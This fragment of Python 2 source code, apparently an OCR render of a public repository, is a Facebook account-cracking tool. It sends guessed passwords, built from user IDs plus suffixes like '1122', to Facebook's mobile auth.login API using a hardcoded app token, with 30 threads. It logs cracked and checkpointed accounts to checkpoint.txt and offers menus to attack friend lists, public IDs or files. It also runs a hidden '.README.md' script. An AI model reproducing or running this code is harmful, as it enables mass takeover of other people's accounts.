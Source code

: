 														print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass6
														oks.append(user+pass6)
													else:
														if "www.facebook.com" in q["error_msg"]:
															print "[Checkpoint] " + user + " | " + pass6
															cps = open("checkpoint.txt", "a")
															cps.write(user+"|"+pass6+"\n")
															cps.close()
															cpb.append(user+pass6)
														else:
															pass7 = c + "1122"
															data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if "access_token" in q:
																print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass7
																oks.append(user+pass7)
															else:
																if "www.facebook.com" in q["error_msg"]:
																	print "[Checkpoint] " + user + " | " + pass7
																	cps = open("checkpoint.txt", "a")
																	cps.write(user+"|"+pass7+"\n")
																	cps.close()
																	cpb.append(user+pass7)
																	
		except:
			pass
			
	p = ThreadPool(30)
	p.map(main, id)
	print (50*"-")
	print ("[✓] Process Has Been Completed ....")
	print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Back]")
	if xxx == "0":
		crack_menu()
	else:
		os.system("python2 .README.md")

def choice_menu():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 bxi.py")
	os.system("clear")
	print (logo)
	print ("[1] Crack From Friend List")
	print ("[2] Crack From Any Public ID")
	print ("[3] Crack From File")
	print ("[0] Back")
	print (50*"-")
	choice_action()
